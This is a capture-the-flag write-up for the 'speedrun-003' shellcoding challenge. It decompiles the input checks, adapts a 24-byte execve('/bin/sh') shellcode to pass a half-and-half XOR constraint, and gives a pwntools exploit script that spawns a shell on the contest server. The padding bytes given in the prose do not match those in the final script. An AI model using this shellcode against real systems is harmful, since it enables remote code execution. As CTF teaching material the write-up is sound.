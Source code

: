 # speedrun-003 (speedrun, shellcoding, pwnable)

**DISCLAIMER**: Solved after competition ended.

## Recon

Lets look at our binary and see what we are dealing with

```
vagrant@kali:/vagrant/misc$ file speedrun-003
speedrun-003: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6169e4b9b9e1600c79683474c0488c8319fc90cb, not stripped

vagrant@kali:/vagrant/misc$ ./speedrun-003
Think you can drift?
Send me your drift
asdfsdfafdasadfsfdsfds
You're not ready.

```

Lets look at the disassembly using IDA Pro and see what exactly the binary is doing:

```
__int64 get_that_shellcode()
{
  int v0; // ST0C_4@1
  char v1; // ST0A_1@7
  char buf; // [sp+10h] [bp-30h]@1
  char v4; // [sp+1Fh] [bp-21h]@7
  char v5; // [sp+2Eh] [bp-12h]@1
  __int64 v6; // [sp+38h] [bp-8h]@1

  v6 = *MK_FP(__FS__, 40LL);
  puts("Send me your drift");
  v0 = read(0, &buf, 0x1EuLL);
  v5 = 0;
  if ( v0 == 30 )
  {
    if ( strlen(&buf) == 30 )
    {
      if ( strchr(&buf, 0x90) )
      {
        puts("Sleeping on the job, you're not ready.");
      }
      else
      {
        v1 = xor((__int64)&buf, 15u);
        if ( v1 == (unsigned __int8)xor((__int64)&v4, 15u) )
          shellcode_it(&buf, 0x1Eu);
        else
          puts("This is a special race, come back with better.");
      }
    }
    else
    {
      puts("You're not up to regulation.");
    }
  }
  else
  {
    puts("You're not ready.");
  }
  return *MK_FP(__FS__, 40LL) ^ v6;
}
```
This is a shellcode challenge, so the program wants us to craft shellcode that is exactly `30` bytes.

Then it checks if we didn't have any NOP instructions (`0x90`) in our shellcode.

Finally, it calls a function `xor()` and checks an equality.

If that equality returns true, then we call `shellcode_it()`. `shellcode_it()` runs our shellcode by creating a memory map using `mmap()`, copying our shellcode to that address space and executing it.

If you want a cleaner and simpler example, check out this [gist](https://gist.github.com/CoolerVoid/1557916).

Lets look at the function `xor()`:

```
__int64 __fastcall xor(__int64 a1, unsigned int a2)
{
  unsigned __int8 v3; // [sp+17h] [bp-5h]@1
  unsigned int i; // [sp+18h] [bp-4h]@1

  v3 = 0;
  for ( i = 0; i < a2; ++i )
    v3 ^= *(_BYTE *)(i + a1);
  return v3;
}
```

So this function takes a `buffer` indicated by `a1`, and xors each byte starting from the beginning until `buffer + a2`, and returns the result.

Lets see how `xor()` is used:

```
v1 = xor((__int64)&buf, 15u);
if ( v1 == (unsigned __int8)xor((__int64)&v4, 15u) )
	shellcode_it(&buf, 0x1Eu);
```

and 

```
char buf; // [sp+10h] [bp-30h]@1
char v4; // [sp+1Fh] [bp-21h]@7
```

So, the first xor call xors the first `15` bytes of our buffer together, and stores that result in `v1`.

Then, we compare `v1` to the result of xoring the last `15` bytes of our buffer together (because `0x1F - 0x10 = 15`).

So essentially in our shellcode we need the first `15` bytes xor'd together to equal the last `15` bytes xor'd together.

## Exploit

**So our shellcode, as described earlier, needs to have the first `15` bytes xor'd together to equal the last `15` bytes xor'd together.**

We are going to do a `execve(/bin/sh)` shellcode.

The easiest solution is to take a shellcode that is less than `30` bytes long, and take our 2nd half of our shellcode and add bytes to it, ensuring the xor of the 2 halves equal one another. 

We can do this because in our shellcode, the last bytes will be a `syscall`, so it doesn't matter what bytes come after.

This [shellcode](https://www.exploit-db.com/exploits/42179) calls `execve(/bin/sh)` using `24` bytes, which is perfect.

The shellcode is:

```
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```

Now, we need to ensure the xor of the 2 halves equal one another, so I wrote a simple python script to calculate that xor result:

```
XD = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f"
finale = 0
for x in XD:
    finale  = finale ^ ord(x)

print finale
```

We run it on our first half of our shellcode because we cannot change this. We get the xor'd result to be `0xcd`.

Since our shellcode is `24` bytes long, we need to add `6` more bytes to the 2nd half of our shellcode and make the xor'd result be `0xcd`.

Through an arbitrary process and elimination (I didn't script this, you could), I came up with the following for the 2nd half of our shellcode:

```
\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\x05\x50\x50\x50\x50\x50\x5f
```

You can rerun the script above and replace our string with this 2nd half and you should get `0xcd` as a result.

So our exploit is done, lets write our final python script and bring it all together:

```
from pwn import *

r = remote("speedrun-003.quals2019.oooverflow.io", 31337)
r.recvuntil("Send me your drift")

shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\x50\x50\x50\x50\x50\x5f"

r.sendline(shellcode)
r.interactive()
```

Running it:

```
vagrant@kali:/vagrant/misc$ python speedrun3.py
[+] Opening connection to speedrun-003.quals2019.oooverflow.io on port 31337: Done
[*] Switching to interactive mode

$ cat /flag
OOO{Fifty percent of something is better than a hundred percent of nothing. (except when it comes to pwning)}
```

**Flag**: `OOO{Fifty percent of something is better than a hundred percent of nothing. (except when it comes to pwning)}`

